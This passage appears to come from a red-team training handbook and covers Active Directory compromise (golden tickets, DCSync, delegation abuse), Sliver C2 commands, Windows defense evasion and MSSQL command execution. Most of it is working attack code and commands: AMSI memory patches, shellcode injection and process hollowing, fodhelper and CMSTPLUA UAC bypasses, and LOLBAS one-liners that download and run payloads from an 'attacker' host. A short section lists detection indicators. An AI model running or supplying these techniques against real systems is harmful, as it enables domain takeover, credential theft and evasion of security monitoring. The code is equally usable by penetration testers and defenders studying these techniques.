execute-assembly /opt/tools/ADSearch.exe -- --search "(objectClass=trustedDomain)" --attributes cn,trustDirection,trustType
# ExtraSids attack: forge a golden ticket with Enterprise Admin SID
execute-assembly /opt/tools/Rubeus.exe ; golden /rc4:[child-krbtgt-hash] /domain:child.corp.local /sid:S-1-5-21-[child-sid] /sids:S-1-5-21-[parent-sid]-519 /user:fakeadmin /ptt
# Access the parent domain
execute -o dir \\\\DC01.corp.local\\C$
# Via Impacket
proxychains -q impacket-ticketer -nthash [krbtgt-hash] -domain-sid S-1-5-21-[child-sid] -extra-sid S-1-5-21-[parent-sid]-519 -domain child.corp.local fakeadminMethodology
- Move laterally to a target host using PsExec, WMI, or WinRM:
psexec -t 172.16.1.10 -u CORP\\admin -p 'P@ssw0rd' -s /tmp/implant.exe proxychains -q impacket-wmiexec CORP/admin:'P@ssw0rd'@172.16.1.10 proxychains -q evil-winrm -i 172.16.1.10 -u admin -p 'P@ssw0rd' - Identify and exploit delegation (unconstrained, constrained, or RBCD):
execute-assembly /opt/tools/ADSearch.exe -- --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes cn,dnshostname execute-assembly /opt/tools/ADSearch.exe -- --search "(&(objectCategory=*)(msDS-AllowedToDelegateTo=*))" --attributes cn,msDS-AllowedToDelegateTo - For unconstrained delegation, coerce DC authentication and capture the TGT:
execute-assembly /opt/tools/Rubeus.exe ; monitor /interval:5 /nowrap execute-assembly /opt/tools/SpoolSample.exe DC01.corp.local DVHOST01.corp.local execute-assembly /opt/tools/Rubeus.exe ; ptt /ticket:[base64-ticket] - For constrained delegation, perform the S4U attack:
execute-assembly /opt/tools/Rubeus.exe ; s4u /user:sqlsvc /rc4:[hash] /impersonateuser:administrator /msdsspn:cifs/DC01.corp.local /ptt - Abuse DACL rights (ForceChangePassword, GenericWrite, WriteDacl) for escalation:
execute-assembly /opt/tools/SharpHound.exe -- -c ACL --outputdirectory C:\\Windows\\Temp execute-assembly /opt/tools/StandIn.exe -- --object targetuser --spn HTTP/fake.corp.local execute-assembly /opt/tools/StandIn.exe -- --computer TARGET$ --grant YOURCOMPUTER$ --write - DCSync the domain and extract the krbtgt hash:
proxychains -q impacket-secretsdump CORP/admin:'P@ssw0rd'@172.16.1.1 -just-dc-user krbtgt execute-assembly /opt/tools/SharpKatz.exe -- --Command dcsync --User corp\\krbtgt --Domain corp.local - Forge a golden ticket for persistent domain access:
execute-assembly /opt/tools/Rubeus.exe ; golden /rc4:[krbtgt-hash] /domain:corp.local /sid:S-1-5-21-... /user:fakeadmin /ptt - Escalate to the forest root via ExtraSids golden ticket:
execute-assembly /opt/tools/Rubeus.exe ; golden /rc4:[child-krbtgt-hash] /domain:child.corp.local /sid:S-1-5-21-[child-sid] /sids:S-1-5-21-[parent-sid]-519 /user:fakeadmin /ptt execute -o dir \\\\DC01.corp.local\\C$
12.5 Detection and Quick Reference
Detecting Sliver requires monitoring network indicators, endpoint behavior, and binary characteristics.
12.5.1 Detection of Sliver
Detecting Sliver requires monitoring network indicators, endpoint behavior, and binary characteristics.
Network indicators:
- Default mTLS port 8888 and unusual TLS certificate patterns
- HTTP C2 traffic uses configurable URL patterns but default paths are known signatures
- DNS C2 generates high volumes of TXT/A record queries to a single domain
- JA3/JA3S fingerprints for Sliver's Go TLS implementation
Endpoint indicators:
- Sliver implants are Go binaries with distinctive section names (
.symtab,.gopclntab) - In-memory .NET assembly execution via
execute-assemblyspawns a sacrificial process - Named pipe patterns used for implant-to-implant communication
- ETW telemetry captures .NET assembly loads and AMSI scan events
YARA signatures:
- Sliver implant strings:
sliverpb,bishopfoxin unstripped builds - Go binary characteristics: PE sections, embedded runtime strings
- Custom YARA rules matching Sliver protobuf message structures
12.5.2 Quick Reference
| Action | Command |
|---|---|
| Start HTTPS listener | https --domain example.com --lport 443 |
| Start mTLS listener | mtls --lhost 10.10.10.5 --lport 8888 |
| Generate session EXE | generate --mtls 10.10.10.5:8888 --os windows --format exe --save implant.exe |
| Generate beacon EXE | generate beacon --https https://c2.com --seconds 30 --os windows --save beacon.exe |
| Interact with session | use [session-id] |
| List sessions | sessions |
| List beacons | beacons |
| Execute .NET assembly | execute-assembly /path/to/tool.exe -- [args] |
| Sideload DLL | sideload /path/to/lib.dll EntryPoint |
| SOCKS proxy | socks5 start |
| Port forward | portfwd add --bind 127.0.0.1:8445 --remote 172.16.1.10:445 |
| Elevate to SYSTEM | getsystem |
| Impersonate user | make-token -u admin -d CORP -p 'pass' |
| Revert identity | rev2self |
| Upload file | upload /local/path /remote/path |
| Download file | download /remote/path /local/path |
| Lateral movement | psexec -t IP -u USER -p PASS -s /path/implant.exe |
13. Windows Evasion Techniques
Modern Windows environments deploy multiple layers of security controls. This module covers techniques for evading antivirus, application whitelisting, and other endpoint protections during Active Directory engagements.
13.1 Defender and Detection Mechanisms
Microsoft Defender is the built-in antivirus solution on Windows 10 and later. It combines signature-based detection, behavioral monitoring, and cloud-delivered protection to identify malicious activity.

13.1.1 How Defender Works
Defender uses three primary detection mechanisms:
- Signature-based: matches files against a database of known malware hashes and byte patterns
- Heuristic/behavioral: monitors runtime behavior for suspicious API call patterns, memory allocations, and process relationships
- Cloud-based: submits unknown samples to Microsoft's cloud for detonation and classification
13.1.2 Real-time Protection
Real-time protection (RTP) scans files on access, download, and execution. It hooks file system operations and inspects content before allowing processes to execute. RTP also integrates with AMSI for script-based content scanning.
13.1.3 Cloud Protection
Cloud-delivered protection sends metadata and samples of suspicious files to Microsoft's cloud for analysis. When enabled, unknown files may be blocked for up to 10 seconds while the cloud analysis completes (block at first sight).
13.1.4 Tamper Protection
Tamper Protection prevents unauthorized changes to Defender settings. When enabled, it blocks attempts to disable real-time protection, cloud protection, and behavior monitoring, even by administrators. It can only be managed through Microsoft Endpoint Manager or the Windows Security portal.
13.1.5 Querying Defender Status
# Check Defender status
Get-MpComputerStatus | Select-Object RealTimeProtectionEnabled, IoavProtectionEnabled, AntispywareEnabled, BehaviorMonitorEnabled
# Check for exclusions
Get-MpPreference | Select-Object -ExpandProperty ExclusionPath
Get-MpPreference | Select-Object -ExpandProperty ExclusionProcess
Get-MpPreference | Select-Object -ExpandProperty ExclusionExtension
# Check signature update status
Get-MpComputerStatus | Select-Object AntivirusSignatureLastUpdated, AntispywareSignatureLastUpdated
# Disable Defender (requires admin, blocked by Tamper Protection)
Set-MpPreference -DisableRealtimeMonitoring $true13.2 Static and Dynamic Evasion
Static analysis examines a file without executing it. Evasion focuses on modifying the binary to avoid known signatures while preserving functionality.
13.2.1 Static Analysis Evasion
Static analysis examines a file without executing it. Evasion focuses on modifying the binary to avoid known signatures while preserving functionality.
Signature-based Detection
Antivirus engines maintain signature databases of known malware patterns. These include byte sequences, file hashes, import table patterns, and string matches. Bypassing signatures requires modifying the binary enough that no known pattern matches.
String Obfuscation
// XOR-encode strings at compile time
public static string Deobfuscate(byte[] data, byte key) {
byte[] result = new byte[data.Length];
for (int i = 0; i < data.Length; i++)
result[i] = (byte)(data[i] ^ key);
return Encoding.UTF8.GetString(result);
}
// Instead of: string target = "AmsiScanBuffer";
// Use: string target = Deobfuscate(new byte[] { 0x20, 0x2C, ... }, 0x41);Payload Encryption
// AES-decrypt shellcode at runtime
byte[] encrypted = File.ReadAllBytes("payload.enc");
using (Aes aes = Aes.Create()) {
aes.Key = Convert.FromBase64String(key);
aes.IV = Convert.FromBase64String(iv);
using (var decryptor = aes.CreateDecryptor())
shellcode = decryptor.TransformFinalBlock(encrypted, 0, encrypted.Length);
}Packing
Packers compress and encrypt the original binary, adding a small loader stub that unpacks the payload at runtime. Common packers include UPX (easily detected), Themida, VMProtect, and custom packers. Custom packers are more effective because commercial ones have known signatures.
Timestomping
# Modify file timestamps to blend with legitimate files
$file = Get-Item C:\Windows\Temp\implant.exe
$file.CreationTime = "01/01/2023 08:00:00"
$file.LastWriteTime = "01/01/2023 08:00:00"
$file.LastAccessTime = "01/01/2023 08:00:00"13.2.2 Dynamic Analysis Evasion
Dynamic analysis executes the payload in a monitored environment (sandbox) to observe its behavior. Evasion techniques detect or delay analysis to avoid triggering behavioral detections.
Sandbox Detection
// Check for sandbox indicators
bool IsSandbox() {
// Low memory (sandboxes often have limited RAM)
if (new Microsoft.VisualBasic.Devices.ComputerInfo().TotalPhysicalMemory < 2147483648)
return true;
// Few processors
if (Environment.ProcessorCount < 2)
return true;
// Recent uptime (sandboxes restart frequently)
if (Environment.TickCount < 1200000)
return true;
// Known sandbox usernames
string user = Environment.UserName.ToLower();
string[] sandbox_users = { "sandbox", "malware", "virus", "sample" };
return sandbox_users.Any(s => user.Contains(s));
}Behavioral Analysis
Behavioral analysis monitors API calls, registry modifications, file operations, and network connections. Evasion strategies include indirect API resolution (dynamic loading via GetProcAddress), API call splitting across multiple functions, and executing benign operations before malicious activity to dilute behavioral signatures.
Sleep Timers and Delay
// Delay execution to outlast sandbox analysis windows
// Most sandboxes analyze for 60-120 seconds
DateTime start = DateTime.Now;
Thread.Sleep(120000); // 2-minute sleep
// Verify time actually passed (sandboxes may fast-forward sleep)
if ((DateTime.Now - start).TotalSeconds < 110)
Environment.Exit(0); // Sleep was skipped, likely a sandboxAPI Unhooking
// Unhook ntdll.dll by loading a fresh copy from disk
// EDR products hook ntdll functions to monitor API calls
IntPtr ntdll = GetModuleHandle("ntdll.dll");
byte[] cleanNtdll = File.ReadAllBytes(@"C:\Windows\System32\ntdll.dll");
// Parse PE headers, find .text section, overwrite hooked bytes
// with the clean copy from disk13.2.3 Process Injection
Process injection executes code in the address space of another process, inheriting its security context and blending with legitimate activity.
Classic Injection
// Allocate memory, write shellcode, create thread in current process
IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
Marshal.Copy(shellcode, 0, addr, shellcode.Length);
IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
WaitForSingleObject(hThread, 0xFFFFFFFF);Remote Thread Injection
// Inject into a remote process
IntPtr hProcess = OpenProcess(0x001F0FFF, false, targetPid);
IntPtr remoteAddr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
WriteProcessMemory(hProcess, remoteAddr, shellcode, shellcode.Length, out _);
CreateRemoteThread(hProcess, IntPtr.Zero, 0, remoteAddr, IntPtr.Zero, 0, IntPtr.Zero);Process Hollowing
Process hollowing creates a legitimate process in a suspended state, unmaps its original code, writes malicious code in its place, then resumes execution. The malicious code runs under the identity of the legitimate process.
// 1. Create target process suspended
STARTUPINFO si = new STARTUPINFO();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", ..., CREATE_SUSPENDED, ..., ref si, out pi);
// 2. Unmap the original image
NtUnmapViewOfSection(pi.hProcess, imageBase);
// 3. Allocate new memory and write payload
VirtualAllocEx(pi.hProcess, imageBase, payloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(pi.hProcess, imageBase, payload, payloadSize, out _);
// 4. Update the entry point in the thread context and resume
// SetThreadContext(...) + ResumeThread(pi.hThread)APC Injection
Asynchronous Procedure Calls (APCs) queue code to execute when a thread enters an alertable state. This avoids creating a new thread, which is a common detection point.
// Queue an APC to an alertable thread
IntPtr hThread = OpenThread(0x0010, false, threadId); // THREAD_SET_CONTEXT
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
WriteProcessMemory(hProcess, addr, shellcode, shellcode.Length, out _);
QueueUserAPC(addr, hThread, IntPtr.Zero);Early Bird Injection
Early Bird combines process creation in a suspended state with APC injection. The APC fires before the process entry point executes, running the payload before any EDR hooks are initialized in the new process.
Methodology
- Obfuscate strings in payload source to avoid signature matches:
// XOR-encode strings at compile time public static string Deobfuscate(byte[] data, byte key) { byte[] result = new byte[data.Length]; for (int i = 0; i < data.Length; i++) result[i] = (byte)(data[i] ^ key); return Encoding.UTF8.GetString(result); } - Encrypt shellcode with AES and decrypt at runtime:
byte[] encrypted = File.ReadAllBytes("payload.enc"); using (Aes aes = Aes.Create()) { aes.Key = Convert.FromBase64String(key); aes.IV = Convert.FromBase64String(iv); using (var decryptor = aes.CreateDecryptor()) shellcode = decryptor.TransformFinalBlock(encrypted, 0, encrypted.Length); } - Timestomp the payload to blend with legitimate system files:
$file = Get-Item C:\Windows\Temp\implant.exe $file.CreationTime = "01/01/2023 08:00:00" $file.LastWriteTime = "01/01/2023 08:00:00" $file.LastAccessTime = "01/01/2023 08:00:00" - Add sandbox detection checks before executing payload:
// Abort if running in sandbox if (Environment.ProcessorCount < 2) return; if (Environment.TickCount < 1200000) return; - Add a sleep timer with verification to outlast sandbox analysis:
DateTime start = DateTime.Now; Thread.Sleep(120000); if ((DateTime.Now - start).TotalSeconds < 110) Environment.Exit(0); // Sleep was skipped, likely sandbox - Unhook ntdll.dll by overwriting with a clean copy from disk:
IntPtr ntdll = GetModuleHandle("ntdll.dll"); byte[] cleanNtdll = File.ReadAllBytes(@"C:\Windows\System32\ntdll.dll"); // Parse PE headers, find .text section, overwrite hooked bytes - Choose an injection technique and inject shellcode into a target process:
// Remote thread injection IntPtr hProcess = OpenProcess(0x001F0FFF, false, targetPid); IntPtr remoteAddr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40); WriteProcessMemory(hProcess, remoteAddr, shellcode, shellcode.Length, out _); CreateRemoteThread(hProcess, IntPtr.Zero, 0, remoteAddr, IntPtr.Zero, 0, IntPtr.Zero);
13.3 AMSI and Open-Source Evasion
AMSI is a Windows interface that allows applications to submit content to the registered antimalware provider for scanning. It intercepts PowerShell scripts, VBA macros, JavaScript, and .NET assembly loads before execution.
13.3.1 Antimalware Scan Interface (AMSI)
AMSI is a Windows interface that allows applications to submit content to the registered antimalware provider for scanning. It intercepts PowerShell scripts, VBA macros, JavaScript, and .NET assembly loads before execution.

How AMSI Works
When a script host (PowerShell, cscript, etc.) executes content, it calls AmsiScanBuffer or AmsiScanString in amsi.dll. The scan result determines whether execution proceeds or is blocked. The scan chain:
- Script host loads
amsi.dlland callsAmsiInitialize - Before executing each script block, the host calls
AmsiScanBuffer - AMSI forwards the content to the registered antimalware provider (typically Defender)
- The provider returns a verdict: clean, suspicious, or malicious
- The script host blocks execution if the verdict is malicious
AMSI Bypass Techniques
# Memory patching: overwrite AmsiScanBuffer to return AMSI_RESULT_CLEAN
# This patches the first bytes of AmsiScanBuffer with a return instruction
$a = [Ref].Assembly.GetTypes() | ? { $_.Name -like "*iUtils" }
$b = $a.GetFields('NonPublic,Static') | ? { $_.Name -like "*Context" }
[IntPtr]$ptr = $b.GetValue($null)
[Int32[]]$buf = @(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)// C# AMSI bypass via patching
var lib = LoadLibrary("amsi.dll");
var addr = GetProcAddress(lib, "AmsiScanBuffer");
VirtualProtect(addr, (UIntPtr)5, 0x40, out uint oldProtect);
// Patch with: mov eax, 0x80070057 (E_INVALIDARG); ret
byte[] patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
Marshal.Copy(patch, 0, addr, patch.Length);
VirtualProtect(addr, (UIntPtr)5, oldProtect, out _);AMSI in .NET
.NET Framework 4.8 and later integrates AMSI scanning for dynamically loaded assemblies. When Assembly.Load is called, the CLR submits the assembly bytes to AMSI before loading. This affects execute-assembly style attacks. Bypasses include patching amsi.dll before loading the target assembly, or using obfuscated loaders that avoid triggering the AMSI scan path.
13.3.2 Open-Source Software Evasion
Public offensive tools (Rubeus, SharpHound, Mimikatz) have well-known signatures. Using them without modification guarantees detection. Evasion requires modifying the source before compilation.
- String replacement: rename class names, method names, and embedded strings that serve as signatures
- Namespace changes: change default namespaces like
RubeusorSharpHound - Remove help text and banners: ASCII art, version strings, and usage text are signature targets
- Change GUIDs and assembly metadata: modify AssemblyInfo.cs values
- Obfuscation tools: ConfuserEx, InvisibilityCloak for .NET; Veil, Scarecrow for payload generation
- Recompile from source: building from source with modifications produces a unique binary hash
# Example: modify and recompile Rubeus
git clone https://github.com/GhostPack/Rubeus.git
cd Rubeus
# Replace identifiable strings
find . -name "*.cs" -exec sed -i 's/Rubeus/CustomTool/g' {} \;
find . -name "*.cs" -exec sed -i 's/GhostPack/Internal/g' {} \;
# Change the assembly name
sed -i 's/Rubeus/CustomTool/' Rubeus/Rubeus.csproj
# Build
dotnet build -c ReleaseMethodology
- Bypass AMSI via PowerShell memory patching:
$a = [Ref].Assembly.GetTypes() | ? { $_.Name -like "*iUtils" } $b = $a.GetFields('NonPublic,Static') | ? { $_.Name -like "*Context" } [IntPtr]$ptr = $b.GetValue($null) [Int32[]]$buf = @(0) [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1) - Bypass AMSI via C# patching of AmsiScanBuffer:
var lib = LoadLibrary("amsi.dll"); var addr = GetProcAddress(lib, "AmsiScanBuffer"); VirtualProtect(addr, (UIntPtr)5, 0x40, out uint oldProtect); byte[] patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 }; Marshal.Copy(patch, 0, addr, patch.Length); VirtualProtect(addr, (UIntPtr)5, oldProtect, out _); - Patch AMSI before loading .NET assemblies (required for execute-assembly attacks):
// Patch amsi.dll in current process BEFORE calling Assembly.Load() // .NET 4.8+ submits assembly bytes to AMSI on dynamic load - Modify open-source tool source to remove signatures before compiling:
git clone https://github.com/GhostPack/Rubeus.git cd Rubeus find . -name "*.cs" -exec sed -i 's/Rubeus/CustomTool/g' {} \; find . -name "*.cs" -exec sed -i 's/GhostPack/Internal/g' {} \; sed -i 's/Rubeus/CustomTool/' Rubeus/Rubeus.csproj - Change GUIDs, assembly metadata, and remove banners, then rebuild:
dotnet build -c Release - Apply additional obfuscation with ConfuserEx or InvisibilityCloak for .NET assemblies
13.4 Application Control and UAC Bypasses
UAC prompts users for consent before allowing high-integrity operations. UAC bypasses elevate from medium to high integrity without triggering the consent dialog.
13.4.1 User Account Control (UAC) Bypass
UAC prompts users for consent before allowing high-integrity operations. UAC bypasses elevate from medium to high integrity without triggering the consent dialog.
UAC Overview
UAC splits administrator tokens into a filtered (medium integrity) and elevated (high integrity) token. Most applications run with the filtered token. UAC settings are controlled by registry keys under HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System:
- EnableLUA: enables/disables UAC entirely
- ConsentPromptBehaviorAdmin: controls prompt behavior (0=no prompt, 1=credentials, 2=consent, 5=default)
- PromptOnSecureDesktop: renders the prompt on the secure desktop
Fodhelper
# Fodhelper.exe auto-elevates and reads a command from the registry
# Set the command to execute
New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "(Default)" -Value "C:\Windows\Temp\implant.exe" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
# Trigger fodhelper
Start-Process "C:\Windows\System32\fodhelper.exe"
# Cleanup
Remove-Item -Path "HKCU:\Software\Classes\ms-settings" -Recurse -ForceCMSTPLUA
The CMSTPLUA COM object auto-elevates and can execute arbitrary commands. This bypass creates an instance of the COM object and calls its ShellExec method.
// CMSTPLUA UAC bypass via COM elevation
Type comType = Type.GetTypeFromCLSID(new Guid("3E5FC7F9-9A51-4367-9063-A120244FBEC7"));
dynamic obj = Activator.CreateInstance(comType);
obj.ShellExec("C:\\Windows\\Temp\\implant.exe");Environment Variable Abuse
Some auto-elevating binaries use environment variables to resolve paths. By modifying %windir% or %systemroot% for the current user, the binary loads a DLL from an attacker-controlled path instead of the system directory.
13.4.2 AppLocker Bypass
AppLocker restricts which executables, scripts, DLLs, and installers users can run based on publisher, path, or hash rules.
AppLocker Overview
# Query AppLocker policy
Get-AppLockerPolicy -Effective -Xml | Out-File applocker-policy.xml
# Check specific file against policy
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path C:\Windows\Temp\tool.exe -User EveryoneTrusted Paths
Default AppLocker rules allow execution from C:\Windows\* and C:\Program Files\*. Writable subdirectories within these paths bypass the policy:
# Find writable directories under trusted paths
accesschk.exe -uwdqs "Users" C:\Windows\ 2>nul
# Common writable locations:
# C:\Windows\Tasks
# C:\Windows\Temp
# C:\Windows\Tracing
# C:\Windows\System32\spool\drivers\colorLOLBAS
Living Off the Land Binaries and Scripts are Microsoft-signed executables that can proxy code execution:
# Execute arbitrary code via msbuild
msbuild.exe C:\Windows\Temp\payload.csproj
# Execute via CMSTP
cmstp.exe /ni /s C:\Windows\Temp\payload.infDLL Bypass
If DLL rules are not enforced (they are off by default), load a malicious DLL via rundll32 or DLL search order hijacking. Even with DLL rules, signed binaries that load arbitrary DLLs from user-writable paths can be exploited.
PowerShell CLM Bypass
# Check current language mode
$ExecutionContext.SessionState.LanguageMode
# Bypass via custom PowerShell runspace (requires a .NET loader)
# Or use InstallUtil with a .NET assembly containing PowerShell code
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Temp\bypass.exeMethodology
- Check current integrity level and UAC configuration:
whoami /groups | findstr Level reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin - Bypass UAC via fodhelper auto-elevation:
New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Force New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "(Default)" -Value "C:\Windows\Temp\implant.exe" -Force New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force Start-Process "C:\Windows\System32\fodhelper.exe" Remove-Item -Path "HKCU:\Software\Classes\ms-settings" -Recurse -Force - Alternative UAC bypass via CMSTPLUA COM object:
Type comType = Type.GetTypeFromCLSID(new Guid("3E5FC7F9-9A51-4367-9063-A120244FBEC7")); dynamic obj = Activator.CreateInstance(comType); obj.ShellExec("C:\\Windows\\Temp\\implant.exe"); - Enumerate AppLocker policy and test execution rules:
Get-AppLockerPolicy -Effective -Xml | Out-File applocker-policy.xml Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path C:\Windows\Temp\tool.exe -User Everyone - Find writable directories within AppLocker trusted paths:
accesschk.exe -uwdqs "Users" C:\Windows\ 2>nul # Common writable: C:\Windows\Tasks, C:\Windows\Temp, C:\Windows\Tracing - Use LOLBAS to proxy execution past AppLocker:
msbuild.exe C:\Windows\Temp\payload.csproj cmstp.exe /ni /s C:\Windows\Temp\payload.inf - Bypass PowerShell CLM via InstallUtil or a custom .NET runspace:
# Check language mode $ExecutionContext.SessionState.LanguageMode # Bypass via InstallUtil C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Temp\bypass.exe
13.5 Living off the Land and CLM
LOLBAS are legitimate, signed Windows binaries that can be repurposed for offensive operations. They bypass application whitelisting and avoid dropping custom tools to disk.
13.5.1 LOLBAS: Living off the Land
LOLBAS are legitimate, signed Windows binaries that can be repurposed for offensive operations. They bypass application whitelisting and avoid dropping custom tools to disk.
| Binary | Capability | Example |
|---|---|---|
mshta.exe | Execute HTA/VBScript | mshta http://attacker/payload.hta |
rundll32.exe | Load and execute DLL | rundll32 payload.dll,EntryPoint |
regsvr32.exe | Execute SCT scripts | regsvr32 /s /n /u /i:http://attacker/file.sct scrobj.dll |
certutil.exe | Download files, decode Base64 | certutil -urlcache -split -f http://attacker/payload.exe |
bitsadmin.exe | Download files | bitsadmin /transfer job http://attacker/payload.exe C:\Temp\payload.exe |
msbuild.exe | Compile and execute C# inline | msbuild payload.csproj |
wmic.exe | Execute XSL scripts | wmic os get /format:"http://attacker/payload.xsl" |
cmstp.exe | Execute INF/SCT files | cmstp /ni /s payload.inf |
13.5.2 PowerShell Constrained Language Mode (CLM)
CLM restricts PowerShell to a subset of functionality, blocking .NET types, COM objects, and Win32 API access. It is typically enforced by AppLocker or WDAC policies.
# Check current language mode
$ExecutionContext.SessionState.LanguageMode
# ConstrainedLanguage = restricted
# FullLanguage = unrestricted
# In CLM, these are blocked:
# [System.Runtime.InteropServices.Marshal] - blocked
# Add-Type - blocked
# New-Object System.Net.WebClient - blocked
# Invoke-Expression with certain constructs - blockedBypasses:
- PowerShell v2:
powershell -version 2uses the old engine without AMSI or CLM (requires .NET Framework 2.0/3.5 installed) - Custom runspace: create a C# application that hosts a PowerShell runspace in Full Language Mode
- MSBuild: embed PowerShell commands in a .csproj file executed via
msbuild.exe - InstallUtil: wrap PowerShell in a .NET assembly and execute via InstallUtil.exe
Methodology
- Download files using signed Windows binaries to avoid detection:
certutil -urlcache -split -f http://attacker/payload.exe C:\Windows\Temp\payload.exe bitsadmin /transfer job http://attacker/payload.exe C:\Temp\payload.exe - Execute payloads via LOLBAS to bypass application whitelisting:
mshta http://attacker/payload.hta rundll32 payload.dll,EntryPoint regsvr32 /s /n /u /i:http://attacker/file.sct scrobj.dll msbuild payload.csproj - Execute XSL scripts via wmic for fileless code execution:
wmic os get /format:"http://attacker/payload.xsl" - Check PowerShell language mode and identify CLM restrictions:
$ExecutionContext.SessionState.LanguageMode # ConstrainedLanguage = restricted # FullLanguage = unrestricted - Bypass CLM using PowerShell v2 (if .NET 2.0/3.5 is installed):
powershell -version 2 - Bypass CLM via MSBuild or InstallUtil to run .NET code outside CLM:
msbuild.exe C:\Windows\Temp\payload.csproj C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Temp\bypass.exe
14. MSSQL, Exchange, and SCCM Attacks
Enterprise infrastructure services often have privileged access to Active Directory and hold credentials that can be leveraged for lateral movement and domain compromise.
14.1 MSSQL Server Attacks
Microsoft SQL Server integrates tightly with Active Directory. SQL instances run under service accounts (often domain accounts) and support Windows Authentication via Kerberos. Key concepts:
14.1.1 Introduction to MSSQL Server
Microsoft SQL Server integrates tightly with Active Directory. SQL instances run under service accounts (often domain accounts) and support Windows Authentication via Kerberos. Key concepts:
- Windows Authentication: uses the caller's Kerberos/NTLM identity; no separate SQL credentials
- Mixed Mode: supports both Windows and SQL authentication (sa account)
- Server roles: sysadmin (full control), securityadmin, serveradmin, dbcreator, etc.
- Database roles: db_owner, db_datareader, db_datawriter per database
# Discover MSSQL instances on the network
proxychains -q impacket-mssqlclient -windows-auth CORP/user:password@10.10.10.20
# Or scan for port 1433
proxychains -q nmap -sT -Pn -p 1433 10.10.10.0/2414.1.2 MSSQL Privilege Escalation
Escalating from a low-privilege SQL login to sysadmin opens the door to command execution and credential extraction.
Impersonation
-- Check who you can impersonate
SELECT distinct b.name FROM sys.server_permissions a
INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
-- Impersonate a higher-privilege login
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER; -- should show 'sa'
-- Check sysadmin membership
SELECT IS_SRVROLEMEMBER('sysadmin');Linked Servers
-- Enumerate linked servers
EXEC sp_linkedservers;
SELECT * FROM sys.servers;
-- Check your identity on the linked server
SELECT * FROM OPENQUERY(LinkedSrv, 'SELECT SYSTEM_USER');
-- Check sysadmin on linked server
SELECT * FROM OPENQUERY(LinkedSrv, 'SELECT IS_SRVROLEMEMBER(''sysadmin'')');xp_cmdshell
-- Enable xp_cmdshell (requires sysadmin)
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
-- Execute OS commands
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'ipconfig /all';14.1.3 MSSQL Command Execution
Multiple methods exist for executing operating system commands from a SQL Server context.

-- Method 1: xp_cmdshell
EXEC xp_cmdshell 'whoami';
-- Method 2: OLE Automation Procedures
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;
DECLARE @output INT;
EXEC sp_OACreate 'wscript.shell', @output OUTPUT;
EXEC sp_OAMethod @output, 'run', null, 'cmd /c whoami > C:\temp\output.txt';
-- Method 3: CLR Assembly (custom .NET code)
-- Create an assembly with OS command execution capabilities
-- Requires TRUSTWORTHY or signed assembly# From Linux with mssqlclient.py
proxychains -q impacket-mssqlclient CORP/sqlsvc:'P@ssw0rd'@10.10.10.20 -windows-auth
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami14.1.4 MSSQL Lateral Movement
Linked servers create trust chains between SQL instances that can be crawled for lateral movement.
-- Crawl linked servers (nested links)
SELECT * FROM OPENQUERY(LinkedSrv1, 'SELECT * FROM OPENQUERY(LinkedSrv2, ''SELECT SYSTEM_USER'')');
-- Execute commands on a linked server
EXEC ('xp_cmdshell ''whoami''') AT LinkedSrv1;
-- Enable xp_cmdshell on a linked server
EXEC ('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT LinkedSrv1;
EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT LinkedSrv1;# Automated linked server crawling with PowerUpSQL
execute-assembly /opt/tools/PowerUpSQL.dll ; Get-SQLServerLinkCrawl -Instance SQL01 -Query "exec master..xp_cmdshell 'whoami'"14.1.5 MSSQL Tools of the Trade
| Tool | Platform | Description |
|---|---|---|
| mssqlclient.py | Linux | Impacket's interactive SQL client with Windows auth support |
| PowerUpSQL | Windows | PowerShell toolkit for SQL Server discovery, audit, and exploitation |
| SQLRecon | Windows | .NET tool for SQL Server reconnaissance and post-exploitation |
